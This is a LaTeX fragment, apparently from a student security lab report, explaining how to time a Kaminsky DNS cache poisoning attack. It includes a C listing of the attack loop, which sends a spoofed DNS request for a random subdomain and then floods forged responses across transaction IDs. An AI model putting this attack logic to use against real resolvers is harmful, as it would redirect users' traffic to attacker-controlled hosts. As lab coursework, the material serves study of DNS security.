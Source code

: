 \documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
We would like to make use of this attack window as much as possible, notwithstanding Kaminsky attack allows us create more windows with different domain names. We would also like to avoid making unnecessary spoof responses before the request is made in the first place. To illustrate what we mean with this: suppose $A \to B$ is the DNS request from $A$ to $B$, which $B$ has to forward as $B \to C$. Now, before $B \to C$ happens, I should not waste my resources to make $C \to B$ spoof responses. An example of this is given in figure \ref{fig:dnspackets}.

\begin{figure}[h]
  \includegraphics[width=\linewidth]{img/attack_information_dnspackets.png}
  \caption{1 request and 1 spoof response packet sniffing. Notice how the spoof is sent even before the request is made.}
  \label{fig:dnspackets}
\end{figure}


\begin{figure}[h]
  \begin{lstlisting}[style=CStyle, firstnumber=66]
while (1) { 
    // Generate a random name 
    for (k=0; k<5; k++)
      name[k] = a[rand() % 26]; 

    // Prepare transaction ids to not waste time with them later 
    for (k=0; k<RESPONSE_COUNT; k++)  
      trn_id_net_orders[k] = htons(k); 
      //trn_id_net_orders[k] = htons((rand() % 7) * 10000 + (rand() % 5536)); 
      
    // Prepare request name
    memcpy(ip_req+REQ_QNAME_OFFSET, name, 5); // update qname
    // Prepare response names
    memcpy(ip_res+RES_QNAME_OFFSET, name, 5); // update qname
    memcpy(ip_res+RES_ANAME_OFFSET, name, 5); // update aname
 
    t1 = clock(); // attack start
    send_raw_packet(ip_req, n_req); // Send request
    sleep(0.05); // wait for a bit
    
    // Send responses
    for (k=0; k<RESPONSE_COUNT; k++) { 
      memcpy(ip_res+RES_TRNID_OFFSET, &trn_id_net_orders[k], 2); //update trn id
      send_raw_packet(ip_res, n_res);   
    }
    t2 = clock() - t1;  // attack end
    
    printf("%.*s.example.com\t%d responses in %f ms\n", 5, name, 
      RESPONSE_COUNT, (float)(t2 * 1000 / CLOCKS_PER_SEC));

    #if CONTROLLED
    printf("Try again? Press <ENTER>\t");
    getc(stdin);
    #endif

    
  }
\end{lstlisting}
  \caption{Inside the while loop of \code{attack.c}.}
  \label{lst:atk}
\end{figure}
\end{document}

